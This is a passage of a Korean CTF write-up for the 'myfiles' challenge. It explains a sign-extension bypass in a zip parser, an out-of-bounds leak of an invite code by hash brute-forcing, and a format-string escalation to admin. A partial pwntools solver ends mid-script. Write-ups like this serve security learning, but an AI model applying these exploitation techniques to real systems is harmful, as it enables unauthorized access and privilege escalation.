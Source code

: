<br>
```asm
mov     rax, [rbp+var_8]
mov     eax, [rax]
mov     [rbp+var_14], eax
mov     eax, [rbp+var_14]
cwde
cmp     [rbp+var_14], eax
jz      short loc_1717
lea     rdi, aExtraFieldNotS
call    _puts
jmp     locret_184F
```
제목의 길이를 음수로 만들 수 없던 것은  `readZipInfo` 함수의 세 번째 조건문, `v7 = (_DWORD *)(a2 + 26); v6 = *v7; if ( v6 == (__int16)v6 )` 때문입니다. `File name len`이 `0xffff`라고 가정해봅시다. `cwde`에 의해 `eax`가 `0xffffffff`가 되기 때문에 `[rbp-0x14] != eax`가 됩니다. 이를 우회하는 방법은 모순적이게도 `Extra field len`을 사용하는 것입니다. 처음에 `rax`의 형태로 8바이트를 읽어옴을 알 수 있습니다. `rax`가 `0xffffffff`라면 `cwde` 후에도 `0xffffffff`이기 때문에 값이 같습니다. 이렇게 음수 인덱스에 접근할 수 있습니다.

<br>
파일 데이터 전에는 고정된 값 9바이트가 존재합니다. 따라서 `File name len + Extra field len`이 변조된 10바이트짜리 zip 파일을 입력하고 해시 값을 받아오면, 마지막 바이트 브루트포싱을 통해 `invitecode.txt`의 내용을 한 글자씩 알아올 수 있습니다.
`invitecode.txt`를 얻었으니 위의 브레인스토밍 과정을 역으로 따라가면 됩니다. 새로운 사용자를 만들고, `FSB`를 유발하는 zip 파일을 업로드하고, 이를 읽어 `admin` 권한을 부여하는 `FSB` payload를 작동하고 `flag`를 읽습니다.

<br>
- 솔버

```python
from pwn import *
from tqdm import *
import subprocess

context.bits = 64
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

p = remote('myfiles.chal.irisc.tf', 10001)
#p = process('./chal')

def listfiles(idx : int, idx2 : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'? ', str(idx).encode())
    payload = f"[FID={idx2}]  10 "
    p.recvuntil(payload.encode())
    return p.recvline()[:-1].decode()

def createuser(name : bytes, password : bytes):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'? ', invite_code)
    p.sendlineafter(b'? ', name)
    p.sendlineafter(b'? ', password)

def uploadfile(idx : int, z : bytes):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'uncompressed file', z)

def viewfile(idx : int, password : bytes, idx2 : int):
    p.sendlineafter(b'> ', b'5')
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'? ', password)
    p.sendlineafter(b'? ', str(idx2).encode())

def viewflag(idx : int, password : bytes):
    p.sendlineafter(b'> ', b'6')
```
